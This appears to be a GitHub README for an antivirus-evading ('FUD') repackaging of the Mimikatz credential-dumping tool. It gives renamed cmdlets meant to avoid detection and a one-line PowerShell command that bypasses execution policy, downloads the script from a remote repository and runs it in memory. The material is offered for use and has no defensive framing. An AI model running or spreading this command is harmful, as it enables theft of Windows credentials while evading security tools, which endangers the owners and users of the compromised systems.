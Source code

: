 # Mimikatz Powershell FUD

Build: mimikatz 2.2.0 (x64) #19041 Aug 10 2021 02:01:23<br>
Tested: Microsoft Windows 11 Pro - 10.0.22000 N/D Compilación 22000

## Cheats Cmdlets

Invoke-Mimikatz == Invoke-M1m1fud<br>
DumpCreds == Dump

IEX:

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMinZoho/M1m1fud2/main/Invoke-M1m1fud2.ps1'))

